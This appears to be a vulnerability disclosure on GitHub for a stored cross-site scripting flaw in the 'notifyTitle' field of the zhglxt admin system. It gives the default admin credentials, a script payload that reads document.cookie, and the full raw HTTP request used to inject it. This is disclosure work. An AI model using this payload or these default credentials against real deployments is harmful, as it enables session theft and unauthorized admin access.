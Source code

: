 BUG_Author: biantaibao  
Vulnerability url:POST /zhglxt/oa/notify/edit HTTP/1.1  
POST form-data parameter name="notifyTitle" exists stored cross-site scripting  
Steps to reproduce  
1.Go to the admin Login  
http://localhost:9898/zhglxt/login    
Default Admin Access Information Username: system / Password: system   
2.Enter the announcement management menu and click the add button.   
![image](https://github.com/biantaibao/zhglxt_xss/assets/131763503/254e7ac4-fe88-441e-add9-dce613154bee)
3.Put Payload into the name="notifyTitle" parameter  
Payload:<script>alert(document.cookie)</script>  
![image](https://github.com/biantaibao/zhglxt_xss/assets/131763503/c5e120ce-0d32-469a-94f6-beba662fec64)
4.Click on Save  
Transmission packet

POST /zhglxt/oa/notify/edit HTTP/1.1  
Host: localhost:9898  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0    
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 184  
Origin: http://localhost:9898  
Connection: close  
Referer: http://localhost:9898/zhglxt/oa/notify/edit/4d049d94293e46c8afb8e4ffe555190f  
Cookie: JSESSIONID=090bf2d0-9cba-462f-844c-fcb72b90ba5e; NG_TRANSLATE_LANG_KEY=%22zh-CN%22; Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995


id=4d049d94293e46c8afb8e4ffe555190f&deptUserIds=&notifyTitle=%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E&notifyType=1&notifyContent=%3Cp%3E111%3Cbr%3E%3C%2Fp%3E&status=0&userIds=  

5.Payload will trigger when a user the search button.
![image](https://github.com/biantaibao/zhglxt_xss/assets/131763503/f93ccf1c-0e6a-47ee-8672-ac7797868e2a)
